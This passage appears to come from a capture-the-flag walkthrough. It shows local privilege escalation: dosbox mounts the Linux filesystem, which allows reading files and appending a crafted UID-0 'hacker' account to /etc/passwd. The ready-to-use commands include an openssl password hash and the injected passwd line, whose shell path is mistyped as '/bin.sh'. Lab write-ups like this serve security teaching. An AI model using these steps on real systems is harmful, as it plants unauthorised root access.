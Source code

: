 We can then run this:

```bash
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would mount the Linux file system within the C Drive of the termnal:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

To exploit this, first create a new hash:

```bash
$ openssl passwd -1 hello123                                
$1$rM9ydZhO$eC.2jbrxk2jETm6W64L/i1
```

Then, run these commands on a `fox` SSH session:

```bash
cp /etc/passwd easy
echo 'hacker:$1$rM9ydZhO$eC.2jbrxk2jETm6W64L/i1:0:0::/root:/bin.sh' >> easy
```

Then, on the `dosbox` instance, run this:

```bash
type C:/home/fox/easy >> C:/etc/passwd
```

We can then `ssh` in using the new `hacker` user:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>
